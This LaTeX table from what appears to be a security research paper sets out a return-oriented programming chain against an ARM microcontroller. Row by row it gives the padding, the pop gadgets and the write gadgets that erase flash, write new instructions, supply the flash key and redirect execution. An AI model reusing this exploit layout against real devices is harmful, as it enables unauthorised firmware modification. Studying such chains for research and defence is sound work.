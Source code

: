 \begin{table}[htbp]
  \centering
  \caption{The ROP design. }
    \begin{tabular}{rrrr}
    \toprule
    Gadget     & Pop into R4 & Pop into PC & Description \\
    \midrule
               & 3030 3030  & 3030 3030  & Fluff \\
               & 3030 3030  & 3030 3030  & Fluff \\
               & 0000 0000  & 0000 0000  & Fluff \\
               & 0000 0000  & 0000 0000  & Fluff \\
               & 0000 0000  & 0000 0000  & Pop \{R4-R5\} \\
    pop \{pc\}   & 7536 0000  &            & Return to A0 \\
    A0         & 0048 0000  & a742 0000  & Erase address \\
    B          & 00d0 0f40  & 7336 0000  & Write erase address \\
    A          & 0200 42a4  & a742 0000  & Erase command \\
    B          & 08d0 0f40  & 7336 0000  & Write erase command \\
    A          & e04b 0000  & a742 0000  & main address \\
    B          & 00d0 0f40  & 7336 0000  & Write main address \\
    A          & 00f1 0100  & a742 0000  & add R0,\#0x1 \\
    B          & 20d1 0f40  & 7336 0000  & Write add \\
    A          & fce7 5555  & a742 0000  & b main \\
    B          & 24d1 0f40  & 7336 0000  & Write b \\
    A          & ffff ffff  & a742 0000  & Clear write buffer \\
    B          & 30d0 0f40  & 7336 0000  & Write clear \\
    A          & 0100 42a4  & a742 0000  & Flash key \\
    B          & 20d0 0f40  & 7336 0000  & Write flash key \\
    A          & 584b 0000  & a742 0000  & Scatter addr \\
    B          & 00d0 0f40  & 7336 0000  & Write scatter addr \\
    A          & 42e0 0000  & a742 0000  & b main \\

\end{tabular}
\end{table}
